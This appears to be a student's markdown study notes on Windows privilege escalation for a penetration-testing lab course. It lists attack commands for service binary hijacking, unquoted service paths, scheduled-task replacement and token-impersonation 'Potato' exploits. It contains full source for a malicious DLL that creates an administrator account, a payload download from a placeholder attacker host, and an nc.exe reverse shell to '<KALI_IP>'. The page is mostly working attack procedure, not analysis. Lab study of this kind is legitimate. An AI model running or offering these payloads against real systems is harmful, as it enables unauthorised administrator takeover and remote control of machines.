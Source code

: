 
| [[07 Windows Privilege Escalation#Service Binary Hijacking\|Service Binary Hijacking]] | [[07 Windows Privilege Escalation#DLL Hijacking\|DLL Hijacking]] | [[07 Windows Privilege Escalation#Unquoted Service Paths\|Unquoted System Paths]] | [[07 Windows Privilege Escalation#Scheduled Tasks\|Scheduled Tasks]] |
| ----------------------------------------------------------------------------------- | ------------------------------------------------------------- | ------------------------------------------------------------------------------ | ----------------------------------------------------------------- |
| [[07 Windows Privilege Escalation#Using Exploits\|Using Exploits]]                     |                                                               |                                                                                |                                                                   |
## Service Binary Hijacking
```powershell
# List all running services
PS C:\Users\offsec> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'} 
# can also use Services.msc GUI if RDP'd in

# List permissions of service binaries
PS C:\Users\offsec> icacls "C:\xampp\mysql\bin\mysqld.exe"
# Can also use Get-ACL pwsh cmdlet
# If have perms to Full, Modify or Write, replace binary with malicious binary

# Check service startup type
PS C:\Users\offsec> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

# Check user privileges (to send reboot)
PS C:\Users\offsec> whoami /priv
# Look for SeShutdownPrivilege

# Restart system
PS C:\Users\offsec> shutdown /r /t 0

# Use PowerUp.ps1 tool, upload from Kali
PS C:\Users\offsec> powershell -ep bypass
PS C:\Users\offsec> . .\PowerUp.ps1
PS C:\Users\offsec> Get-ModifiableServiceFile
```
## DLL Hijacking
```shell
# Look for installed applications via enumeration
PS C:\Users\offsec> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
# Take note of insecure pathnames, e.g. outside sys32

# Check for write permissions inside the application directory
icacls "C:\xampp\mysql\bin" 

# OR Copy service directory to local machine and use procmon to identify DLLs loaded/missing
Filter via Process (service process) + CreateFile Operation

# Create malicious DLL
kali@kali:~$ cat TextShaping.cpp
"""
#include <stdlib.h>
#include <windows.h>
BOOL APIENTRY DllMain(

HANDLE hModule, // Handle to DLL module

DWORD ul_reason_for_call, // Reason for calling function

LPVOID lpReserved ) // Reserved
{
   switch ( ul_reason_for_call)
   {
      case DLL_PROCESS_ATTACH: // A process is loading the DLL.
      int i;
      i = system (“net user dave3 password123! /add”);
      i = system (“net localgroup administrators dave3 /add”);
      break;
      case DLL_THREAD_ATTACH: // A process is creating a new thread.
      break;
      case DLL_THREAD_DETACH: // A thread exits normally.
      break;
      case DLL_PROCESS_DETACH: // A process unloads the DLL.
      break;
   }
   return TRUE;
}
"""

# Compile malicious DLL as DLL
kali@kali:~$ x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
# Rename to target DLL to replace

# Wait for higher priv user to run the application and trigger the loading of the malicious DLL
```
## Unquoted Service Paths
```powershell
# Enumerate running and stopped services
PS C:\Users\offsec> Get-CimInstance -ClassName win32_service | Select Name,State,PathName

# Secondary method on CMD
C:\Users\offsec> wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """

# Check start/stop permissions on that service (autorun or not)
PS C:\Users\offsec> Start-Service GammaService
PS C:\Users\offsec> Stop-Service GammaService

# Check for modify/write permissions in the attempted run paths
PS C:\Users\offsec> icacls "C:\"
PS C:\Users\offsec> icacls "C:\Program Files"
PS C:\Users\offsec> icacls "C:\Program Files\Enterprise Apps"

# Copy malicious service binary into the writable run path and restart service

# PowerUp.ps1 function
PS C:\Users\offsec> Get-UnquotedService
PS C:\Users\offsec> Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe" # Take note of command ran
PS C:\Users\offsec> Restart-Service GammaService
PS C:\Users\offsec> net user
```

## Scheduled Tasks
```powershell
# View scheduled tasks
PS C:\Users\offsec> schtasks /query /fo LIST /v

# Check permissions with icacls on the files scheduled to run
PS C:\Users\offsec> icacls "C:\Users\steve\Pictures\BackendCacheCleanup.exe"

# Copy malicious executable to replace scheduled executable
PS C:\Users\offsec> iwr -Uri http://<KALI_IP>/adduser.exe -Outfile BackendCacheCleanup.exe
```

## Using Exploits
```powershell
# Find exploits based on Windows OS & Security Updates
PS C:\Users\offsec> systeminfo # OS Version
PS C:\Users\offsec> Get-CimInstance -Class win32_quickfixengineering | Where-Object {$_.Description -eq "Security Update"} # get list of installed security updates

# e.g CVE-2023-29360

# Using XXXPotato, requires SeImpersonatePrivilege, download from github
# Can also rely on SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, SeDebug
PS C:\Users\offsec> whoami /priv # view privileges
PS C:\Users\offsec> .\SigmaPotato "net user dave4 lab /add"
PS C:\Users\offsec> .\SigmaPotato "net localgroup Administrators dave4 /add"
PS C:\Users\offsec> RoguePotato.exe -r <KALI_IP> -e "shell.exe" -l 9999
PS C:\Users\offsec> GodPotato.exe -cmd "cmd /c whoami"
PS C:\Users\offsec> GodPotato.exe -cmd "shell.exe"
PS C:\Users\offsec> JuicyPotatoNG.exe -t * -p "shell.exe" -a
PS C:\Users\offsec> SharpEfsPotato -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log" # writes output to w.log file
# Use newest/different .NET version of GodPotato if needed


# PrintSpoofer
PS C:\Users\offsec> PrintSpoofer.exe -i -c powershell.exe
PS C:\Users\offsec> PrintSpoofer.exe -c "nc.exe <KALI_IP> <PORT> -e cmd"
```
